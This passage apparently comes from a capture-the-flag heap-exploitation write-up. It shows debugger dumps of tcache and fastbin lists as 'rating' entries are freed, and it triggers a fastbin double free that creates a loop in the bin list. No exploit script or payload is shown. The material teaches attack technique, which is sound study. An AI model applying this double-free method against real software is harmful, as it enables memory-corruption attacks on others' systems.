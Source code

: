 Now, when we delete rating 1 and 2, both would go to `fastbin`.

```console
----------------------------------- Tcachebins for arena 'main_arena' -----------------------------------
tcachebins[idx=0, size=0x20, @0x555555563090] count=7
 -> Chunk(addr=0x555555575800, size=0x20, flags=PREV_INUSE, fd=0x555000020285, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x5555555757e0, size=0x20, flags=PREV_INUSE, fd=0x5550000202a5, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x5555555757c0, size=0x20, flags=PREV_INUSE, fd=0x5550000203d5, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x555555575690, size=0x20, flags=PREV_INUSE, fd=0x5550000203f5, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x555555575670, size=0x20, flags=PREV_INUSE, fd=0x5550000200a5, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x5555555755c0, size=0x20, flags=PREV_INUSE, fd=0x555000020035, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x555555575530, size=0x20, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=1, size=0x30, @0x555555563098] count=2
 -> Chunk(addr=0x5555555752a0, size=0x30, flags=PREV_INUSE, fd=0x5550000200d5, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x555555575590, size=0x30, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=3, size=0x50, @0x5555555630a8] count=2
 -> Chunk(addr=0x5555555752d0, size=0x50, flags=PREV_INUSE, fd=0x555000020645, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x555555575320, size=0x50, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=7, size=0x90, @0x5555555630c8] count=1
 -> Chunk(addr=0x5555555755e0, size=0x90, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=15, size=0x110, @0x555555563108] count=1
 -> Chunk(addr=0x5555555756b0, size=0x110, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
[+] Found 13 chunks in tcache.
------------------------------------ Fastbins for arena 'main_arena' ------------------------------------
fastbins[idx=0, size=0x20, @0x7ffff7c17ad0]
 -> Chunk(addr=0x555555575510, size=0x20, flags=PREV_INUSE, fd=0x555000020185, bk=0x00000000000a)
 -> Chunk(addr=0x5555555754f0, size=0x20, flags=PREV_INUSE, fd=0x000555555575, bk=0x00000000000a)
[+] Found 2 chunks in fastbin.

```

Next, we trigger the double free by deleting rating 1.

```console
------------------------------------ Fastbins for arena 'main_arena' ------------------------------------
fastbins[idx=0, size=0x20, @0x7ffff7c17ad0]
 -> Chunk(addr=0x5555555754f0, size=0x20, flags=PREV_INUSE, fd=0x555000020065, bk=0x00000000000a)
 -> Chunk(addr=0x555555575510, size=0x20, flags=PREV_INUSE, fd=0x555000020185, bk=0x00000000000a)
 -> Chunk(addr=0x5555555754f0, size=0x20, flags=PREV_INUSE, fd=0x555000020065, bk=0x00000000000a)
 -> 0x555555575500 [loop detected]
[+] Found 2 chunks in fastbin.
```
